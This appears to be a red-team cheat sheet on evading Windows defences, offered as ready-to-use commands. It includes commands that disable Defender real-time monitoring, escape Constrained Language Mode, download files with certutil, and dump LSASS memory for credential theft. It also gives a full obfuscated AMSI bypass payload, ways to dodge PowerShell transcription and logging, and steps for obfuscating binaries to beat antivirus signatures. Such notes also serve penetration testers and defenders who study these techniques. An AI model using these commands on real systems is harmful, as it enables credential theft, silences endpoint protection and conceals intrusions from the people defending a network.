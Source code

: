 # Evasion
## Execution-policy
- Not meant to be a security measure
```
powershell –executionpolicy bypass .\script.ps1
powershell –c <cmd>
powershell –enc
powershell.exe -executionpolicy bypass
```

## AV
#### Check if windows defender is running
```
Get-MpComputerStatus
Get-MpComputerStatus | Select RealTimeProtectionEnabled
```

#### Disable AV monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPReference -DisableIOAVProtection $true
```

## Constrained Lanuage Mode
#### Check the language mode
```
$ExecutionContext.SessionState.LanguageMode
```

### Escapes for Constrained Language Mode
#### Launch Powershell Version 2
```
Powershell.exe -Version 2
```

#### Overwrite __PSLockdownPolicy variable
- If CLM is not implemented correctly.
- https://github.com/Metoraf007/Public_PowerShell/blob/master/Bypass_ConstrainedLang.ps1
```
#Requires -RunAsAdministrator

If ( $ExecutionContext.SessionState.LanguageMode -eq "ConstrainedLanguage") {
    Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name "__PSLockdownPolicy" -Value 8

    Start-Process -File PowerShell.exe -Argument "-file $($myinvocation.mycommand.definition)"
    Break
}

Write-Host $ExecutionContext.SessionState.LanguageMode

Start-Sleep -s 10
```

#### Download files with certutil
```
certutil -urlcache -split -f <URL>
```

## Applocker
#### Check if applocker policy is running
```
Get-AppLockerPolicy -Effective
```

#### Enumerate applocker policy
```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

#### Check applocker policy in registery
```
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

#### Check for WDAC
```
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

#### If code integrity is enforced and PowerShell is running in Constrained Langauge Mode use winrs instead of psremoting
```
runas /netonly /user:<DOMAIN\<USER> cmd.exe
winrs -r:<PC NAME> cmd
```

### LOLBAS
- Use Microsoft Signed Binaries to exploit https://lolbas-project.github.io/

#### For example dumping lsass:
```
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
dir C:\Users\Public\lsass.dmp
```

#### Powershell detections
- System-wide transcription
- Script Block logging 
- AntiMalware Scan Interface (AMSI)
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)

## AMSI Bypass
- https://amsi.fail/
- Then obfuscate with https://github.com/danielbohannon/Invoke-Obfuscation
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

## Invisi-shell
- Bypasses Sytem-Wide transcript
- https://github.com/OmerYa/Invisi-Shell
- Type exit from the new PowerShell session to complete the clean-up.

#### With admin privileges
```
./RunWithPathAsAdmin.bat 
```

#### With non-admin privileges:
```
RunWithRegistryNonAdmin.bat
```

## Winrs
- Use Winrs instead of PSRemoting to evade System-wide-transcript and deep script block logging
```
winrs -remote:server1 -u:<COMPUTERNAME>\<USER> -p:<PASS> hostname
```

## Com objects
- https://github.com/bohops/WSMan-WinRM

## AV Bypass
- Defendercheck to check for signatures https://github.com/matterpreter/DefenderCheck
- Run Defendercheck ```DefenderCheck.exe <PATH TO BINARY>```
- Replace string which gets detected.
- Recompile and check again!

- Obfuscate binary with https://github.com/mkaring/ConfuserEx
- Launch ConfuserEx
- In Project tab select the Base Directory where the binary file is located.
- In Project tab Select the Binary File that we want to obfuscate.
- In Settings tab add the rules.
- In Settings tab edit the rule and select the preset as `Normal`.
- In Protect tab click on the protect button.
- We will find the new obfuscated binary in the Confused folder under the Base Directory.
